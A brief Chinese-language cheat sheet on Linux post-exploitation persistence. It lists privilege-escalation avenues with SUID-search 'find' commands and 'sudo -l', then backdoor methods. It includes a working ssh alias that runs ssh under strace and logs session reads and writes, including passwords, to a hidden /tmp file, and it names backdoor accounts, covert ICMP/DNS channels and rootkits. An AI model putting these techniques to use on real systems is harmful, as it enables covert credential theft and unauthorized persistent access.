 持久化 - Linux
========================================

权限提升
----------------------------------------
- 内核漏洞利用
- 攻击有root权限的服务
- 通过有SUID属性的可执行文件
    - 查找可能提权的可执行文件
    - ``find / -perm +4000 -ls``
    - ``find / -perm -u=s -type f 2>/dev/null``
    - ``find / -user root -perm -4000 -print 2>/dev/null``
    - ``find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null``
- 利用可用的root权限
    - ``sudo -l``
- 利用误配置的 crontab 任务

后门
----------------------------------------
- ssh 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
    - 后门账户
- 常见应用
    - ICMP
    - DNS
- 后门端口复用
- ``.`` 开头隐藏文件
- rootkit
